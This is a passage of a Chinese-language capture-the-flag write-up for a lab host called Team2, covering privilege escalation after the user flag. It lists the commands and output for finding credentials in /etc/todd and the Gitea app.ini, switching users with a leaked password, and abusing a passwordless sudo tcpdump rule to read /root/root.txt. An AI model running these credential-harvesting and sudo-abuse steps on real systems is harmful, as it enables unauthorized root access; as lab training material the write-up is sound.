 获得用户flag。继续寻找权限提升路径：

```bash
www-data@Team2:/home/todd$ find / -user todd 2>/dev/null
...
/etc/todd
/etc/todd/config.txt
/etc/todd/.git
...

www-data@Team2:/etc/todd$ cat config.txt 
root:root123
```

发现todd用户的配置文件，但root:root123的凭据无法直接使用。查找gitea相关文件：

```bash
www-data@Team2:/etc/todd$ cat /etc/gitea/app.ini
...
[database]
DB_TYPE = mysql
HOST = localhost:3306
NAME = gitea
USER = gitea
PASSWD = GiteaDBPass123!
;todd = todd123
...
```

在Gitea配置文件中发现注释：todd = todd123。尝试使用这个密码切换到todd用户：

```bash
www-data@Team2:/etc/todd$ su todd 
Password: todd123
todd@Team2:/etc/todd$ id
uid=1000(todd) gid=1000(todd) groups=1000(todd)
```

成功切换到todd用户。

# 八、获取Root权限

检查todd用户的sudo权限：

```bash
todd@Team2:/etc/todd$ sudo -l
Matching Defaults entries for todd on Team2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on Team2:
    (ALL) NOPASSWD: /usr/bin/tcpdump
```

**利用tcpdump的sudo权限获取root flag**

tcpdump具有文件读取功能，可以通过-V参数尝试读取文件。当文件不存在时会显示文件内容作为错误信息：

```bash
todd@Team2:/etc/todd$ sudo -u root /usr/bin/tcpdump -V /root/root.txt
tcpdump: flag{root-39f5db9cc390378373b0828ce85caf85}: No such file or directory
```

成功获取root flag：`flag{root-39f5db9cc390378373b0828ce85caf85}`
